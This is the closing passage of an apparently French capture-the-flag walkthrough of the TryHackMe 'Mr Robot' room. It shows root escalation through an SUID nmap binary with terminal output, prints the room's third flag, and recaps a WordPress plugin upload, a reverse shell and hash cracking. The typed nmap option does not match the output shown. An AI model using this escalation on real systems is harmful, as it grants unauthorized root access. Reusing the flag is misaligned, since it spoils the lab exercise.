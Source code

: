 Il y a bien des fichiers SUID présents, mais nous devons nous concentrer sur celui qui semble le plus étrange d'avoir SUID activé.

Celui de Nmap devrait vous interpeller → En utilisant GTFObins ([GTFObins](https://gtfobins.github.io/)), il semble que nous puissions obtenir des privilèges root en utilisant l'option -oG ! Essayons cela

```bash
(remote) robot@ip-10-10-135-61:/home/robot$ nmap -oG
Starting nmap V. 3.81 ( <http://www.insecure.org/nmap/> )
Welcome to Interactive Mode -- press h <enter> for help
nmap> id
uid=0(root) gid=0(root) groups=0(root),1002(robot)
nmap> ls -la /root
total 44
drwx------  7 root root 4096 Jun  2 18:26 .
drwxr-xr-x 23 root root 4096 Aug  3 13:25 ..
-rw-------  1 root root    0 Jun  2 18:26 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  3 root root 4096 May 29 15:36 .cache
drwx------  3 root root 4096 May 29 15:36 .config
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
drwx------  3 root root 4096 May 29 16:58 .gnupg
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
drwxr-xr-x  3 root root 4096 May 29 17:26 .local
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
drwx------  2 root root 4096 May 29 15:20 .ssh
-rw-------  1 root root    0 Jun  2 18:26 .viminfo
nmap> cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

P-A-R-F-A-I-T ! Nous avons maintenant réussi à mettre à niveau nos privilèges et obtenu un accès root à la machine cible 🥳

La 3ème clé est : `04787ddef27c3dee1ee161b21670b4e4`

Félicitations pour avoir terminé la room Mr Robot !

## Conclusion

Cette room concernait l'exploitation d'un site web WordPress vulnérable via la page de connexion WordPress. Ensuite, nous avons réussi à envoyer/exécuter un plugin malveillant à l'intérieur du site web WordPress. Après avoir obtenu un reverse shell sur la machine cible, nous avons récupéré et cracké un hash MD5 d'un utilisateur en utilisant JohnTheRipper. Enfin, nous avons réussi à obtenir des privilèges root sur la machine cible.

À travers cette room, j'ai compris à quel point il est important d'utiliser un mot de passe fort et de maintenir les services utilisés à jour. Cela m'a également aidé à acquérir plus de connaissances pratiques en matière de pentest Web (dumoins sur WordPress).

## Remerciements
